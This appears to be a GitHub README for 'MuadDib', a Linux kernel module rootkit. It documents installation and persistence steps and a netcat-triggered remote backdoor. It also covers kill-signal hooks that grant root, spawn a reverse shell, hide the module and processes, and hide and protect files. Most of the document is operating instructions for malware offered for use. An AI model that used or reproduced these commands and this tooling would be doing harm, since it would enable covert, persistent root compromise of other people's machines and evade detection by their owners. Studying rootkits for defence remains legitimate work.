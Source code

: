 # MuadDib
Linux Kernel Module (LKM) Rootkit that works with linux kernel versions 5.13 and (hopefully) below.

## Installation
Just run the Makefile and insert the module.
```
make
insmod muadDib.ko
```
## Usage
### Accept Backdoor
To remotely get a shell, send a request from a specified source port (default 1337)
```
nc xxx.xxx.xxx.xxx 22 -p 1337
```
### Get root
When on the machine, root can be acquired via kill hook
```
kill -64 9999
```
Any PID works
### Spawn reverse shell
Also works using kill hook
```
kill -42 9999
```
### Hide muadDib LKM
Again, using kill
```
kill -43 9999
```
When hidden, running this again will show it
### Hide Process
```
kill -44 [PID to hide]
```
### Hide and Protect files
All files containing PREFIX [default MUADDIB] are hidden and cannot be deleted. 
### Misc
There is also a mkdir and execve hook just as a POC, have not found a use yet.

### Persistence
Copy muadDib.ko to /lib/modules/$(uname -r)/kernel/drivers/ 
echo muadDib to /etc/modules
sudo depmod 

## Tested on
Ubuntu 20.04.1 x86_64 Linux 5.13.0

## Resources/References:
	https://xcellerator.github.io/
	https://github.com/xcellerator/linux_kernel_hacking
	https://github.com/ilammy/ftrace-hook
	https://github.com/h3xduck/Umbra
